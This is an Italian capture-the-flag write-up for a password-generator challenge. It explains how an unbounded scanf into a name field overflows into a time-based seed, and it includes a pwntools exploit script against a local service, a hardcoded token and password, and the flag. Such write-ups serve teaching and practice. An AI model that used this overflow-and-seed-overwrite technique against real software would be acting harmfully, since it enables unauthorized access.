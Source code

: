 # Password Generator (`pswgenerator`)

La challenge espone un servizio remoto (`nc localhost 20010`) ed il binario corrispondente, che presumibilmente 'genera' delle password.
La generazione delle password e l'implementazione del programma sembrano corrette, ma analizzando bene il decompilato (ottenuto con tool come `ghidra` o `binary-ninja`) ci si accorge di una parte critica in questa sezione:

![vuln](vuln.png)

- Lo `scanf()` di `nome` non ha un limite sui caratteri inseriti (`%s`), permettendo un buffer overflow.
- Il seed viene assegnato con time(0) prima che questo `scanf()` venga chiamato, quindi overflowando il nome si può sostituirlo (se il layout di memoria lo consente).

![layout](layout.png)

Osservando il frame della funzione (con `Edit stack frame` di `ghidra`), capiamo di poterlo fare.

A questo punto l'exploit è chiaro, basterà sovrascrivere il seed ad un valore deciso da noi sfruttando il **buffer overflow**, e prevedere quindi la password generata.
Per farlo si può o riscrivere il codice con il nostro seed, o per i più pigri debuggare il binario con un debugger (es. `gdb`) e prendere il valore in **runtime**.

Fatto questo basterà reversare il binario per trovare il token **segretissimo** e scrivere la password giusta, e si riceverà la flag.

**Nota:** Normalmente i compilatori, fra le altre ottimizzazioni, riordinano le variabili mettendo i buffer dopo le variabili (es. `int`). Per rendere la challenge exploitabile, le variabili sono state messe in uno struct packed, altrimenti il seed sarebbe stato sopra al nome.

Esempio di exploit:
```python
from pwn import *

context.binary = ELF('attachments/pswgenerator')
p = remote('localhost', 20010)

payload = b'A'*64 + b'B'*8

print(p.recvuntil(b'Come ti chiami?').decode())
p.sendline(payload)

print(p.recvuntil(b'.com/)'))
p.sendline(b'supersafeunguessabletoken')

password = b'Yy?6V9yCpO\W~KL\W?2]eT:E1mZzPmgzgG2^qLrc<p;;<y8dY<c@a>V3|1NM@ViH' # preso con gdb
print(p.recvuntil(b'la flag!').decode())
p.sendline(password)

p.interactive()
```

Flag: `rossiCTF{4pP4r3N7ly_th3_p4Ssw0rD_W45n7_s0_54f3..._a3f9c1}`